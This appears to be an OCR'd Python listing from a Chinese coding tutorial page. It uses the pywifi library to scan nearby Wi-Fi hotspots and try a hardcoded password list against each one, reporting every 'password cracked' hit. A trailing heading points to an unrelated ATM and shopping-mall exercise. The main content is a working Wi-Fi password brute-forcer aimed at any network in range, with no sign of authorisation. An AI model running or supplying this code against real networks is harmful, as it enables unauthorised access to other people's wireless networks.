 ```python
            now = time.time() - t1
            if now > ts:
                break
            # print ("\r%-*s| %-*s| %s |%*.2fs| %-*s |  %-*s %*s-------"%(6,i,18,showID,code,5,now,7,x.signal,10,len(key)-n,10,k.replace("\n","")))
            # print "code=",code
            if code == 4:
                print("password----OK", n, k)
                face.disconnect()
                return "密码破解%-*s| %s | %*s |%*s\n" % (20, x.ssid, x.bssid, 3, x.signal, 15, k)
    return False


def main():
    # 扫描时常
    scantimes = 3
    # 单个密码测试延迟
    testtimes = 10
    keys = ["302....8", "grey631331", "12345678"]
    print("|KEYS %s" % (len(keys)))
    # 实例化一个pywifi对象
    wifi = PyWiFi()
    # 选择定一个网卡并赋值于iface
    iface = wifi.interfaces()[0]
    # 通过iface进行一个时常为scantimes的扫描并获取附近的热点基础配置
    scanres = scans(iface, scantimes)
    # 统计附近被发现的热点数量
    nums = len(scanres)
    print("|SCAN GET %s" % (nums))
    print("%s\n%-*s| %-*s| %-*s| %-*s | %-*s | %-*s %*s \n%s" % (
        "-" * 70, 6, "WIFIID", 18, "SSID OR BSSID", 2, "N", 4, "time", 7, "signal", 10, "KEYNUM", 10, "KEY", "=" * 70))
    # 将每一个热点信息逐一进行测试
    print("start")
    for i, x in enumerate(scanres):
        # 测试完毕后，成功的结果讲存储到files中
        try:
            res = go(nums - i, iface, x, keys, testtimes)
            print(res)
        except:
            print("触发异常")
    print("end")


main()
```

### another examples

模拟实现一个ATM + 购物商城程序
